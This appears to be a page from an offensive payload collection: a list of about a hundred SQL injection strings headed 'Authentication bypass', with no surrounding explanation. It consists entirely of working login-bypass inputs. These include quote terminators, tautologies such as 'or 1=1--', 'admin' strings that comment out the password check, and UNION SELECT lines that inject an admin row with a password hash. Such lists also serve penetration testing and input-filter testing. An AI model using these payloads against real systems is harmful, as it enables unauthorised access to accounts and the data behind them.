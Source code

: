 ## Authentication bypass
     '
     ''
     `
     ``
     ,
     "
     ""
     /
     //
     \
     \\
     ;
     '-'
     ' '
     '&'
     '^'
     '*'
     ' or 1=1 limit 1 -- -+
     '="or'
     ' or ''-'
     ' or '' '
     ' or ''&'
     ' or ''^'
     ' or ''*'
     '-||0'
     "-||0"
     "-"
     " "
     "&"
     "^"
     "*"
     " or ""-"
     " or "" "
     " or ""&"
     " or ""^"
     " or ""*"
     or true--
     " or true--
     ' or true--
     ") or true--
     ') or true--
     ' or 'x'='x
     ') or ('x')=('x
     ')) or (('x'))=(('x
     " or "x"="x
     ") or ("x")=("x
     ")) or (("x"))=(("x
     or 2 like 2
     or 1=1
     or 1=1--
     or 1=1#
     or 1=1/*
     admin' --
     admin' -- -
     admin' #
     admin'/*
     admin' or '2' LIKE '1
     admin' or 2 LIKE 2--
     admin' or 2 LIKE 2#
     admin') or 2 LIKE 2#
     admin') or 2 LIKE 2--
     admin') or ('2' LIKE '2
     admin') or ('2' LIKE '2'#
     admin') or ('2' LIKE '2'/*
     admin' or '1'='1
     admin' or '1'='1'--
     admin' or '1'='1'#
     admin' or '1'='1'/*
     admin'or 1=1 or ''='
     admin' or 1=1
     admin' or 1=1--
     admin' or 1=1#
     admin' or 1=1/*
     admin') or ('1'='1
     admin') or ('1'='1'--
     admin') or ('1'='1'#
     admin') or ('1'='1'/*
     admin') or '1'='1
     admin') or '1'='1'--
     admin') or '1'='1'#
     admin') or '1'='1'/*
     1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
     admin" --
     admin" #
     admin"/*
     admin" or "1"="1
     admin" or "1"="1"--
     admin" or "1"="1"#
     admin" or "1"="1"/*
     admin"or 1=1 or ""="
     admin" or 1=1
     admin" or 1=1--
     admin" or 1=1#
     admin" or 1=1/*
     admin") or ("1"="1
     admin") or ("1"="1"--
     admin") or ("1"="1"#
     admin") or ("1"="1"/*
     admin") or "1"="1
     admin") or "1"="1"--
     admin") or "1"="1"#
     admin") or "1"="1"/*
     1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
